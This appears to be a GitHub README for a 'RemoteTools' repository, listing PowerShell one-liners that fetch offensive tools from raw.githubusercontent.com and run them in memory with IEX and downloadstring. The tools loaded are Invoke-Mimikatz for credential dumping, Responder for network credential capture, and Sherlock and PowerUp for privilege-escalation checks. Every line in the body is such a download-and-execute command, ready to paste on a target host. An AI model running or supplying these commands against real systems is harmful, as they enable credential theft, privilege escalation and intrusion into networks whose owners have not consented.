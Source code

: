 # RemoteTools

## These are configured to be run via powershell remotely.  

### Credit to the original authors 

### Mimikatz

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Invoke-Mimikatz.ps1')  

### Responder

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Responder.ps1')  

### Sherlock

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Sherlock.ps1')

### Powerup

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/PowerUp.ps1')
